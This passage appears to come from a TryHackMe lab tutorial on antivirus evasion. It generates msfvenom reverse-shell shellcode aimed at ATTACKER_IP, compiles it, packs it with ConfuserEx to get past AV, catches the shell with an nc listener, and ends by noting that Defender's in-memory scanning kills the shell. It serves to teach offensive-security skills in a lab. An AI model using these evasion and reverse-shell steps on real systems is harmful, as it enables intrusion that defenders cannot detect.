 This payload takes a shellcode generated by msfvenom and runs it into a separate thread. For this to work, you'll need to generate a new shellcode and put it into the `shellcode` variable of the code:

Command Prompt

```shell-session
C:\> msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7478 -f csharp
```

You can then compile your payload in the Windows machine using the following command:

Command Prompt

```shell-session
C:\> csc UnEncStagelessPayload.cs
```

Once you have a working executable, you can try uploading it to the THM Antivirus Check! page (link on the desktop). It should be flagged by the AV immediately. Let's use a packer on the same payload and see what happens.

We will use the [ConfuserEx](https://github.com/mkaring/ConfuserEx/releases/tag/v1.6.0) packer for this task, as our payloads are programmed on `.NET`. For your convenience, you can find a shortcut on your desktop to it.

ConfuserEx will require you to indicate the folders in which it will work. Be sure to select your desktop as the base directory, as shown in the image below. Once the base directory is set up, drag and drop the executable you want to pack on the interface, and you should end up with the following:

![Packer config part1](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/9214df2a88ffffbf8561502aa19a375c.png)

Let's go to the settings tab and select our payload. Once selected, hit the "+" button to add settings to your payload. This should create a rule named "true". Make sure to enable compression as well:

![Packer config part2](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/857e5540e14f4ebf743fbd4d2f8ee503.png)

We will now edit the "true" rule and set it to the Maximum preset:

![packer config part3](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/96946f1aff585a91e78408b96e446ea4.png)

Finally, we will go to the "Protect!" tab and hit "Protect":

![packer config part 4](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/e0e3ca97245641d3954f26fa986aae87.png)

The new payload should be ready and hopefully won't trigger any alarms when uploaded to the THM Antivirus Checker! (shortcut available on your desktop). In fact, if you execute your payload and set up an `nc` listener, you should be able to get a shell back:

AttackBox

```shell-session
user@attackbox$ nc -lvp 7478
```

So far, so good, but remember we talked about AVs doing in-memory scanning? If you try running a command on your reverse shell, the AV will notice your shell and kill it. This is because Windows Defender will hook certain Windows API calls and do in-memory scanning whenever such API calls are used. In the case of any shell generated with msfvenom, CreateProcess() will be invoked and detected.
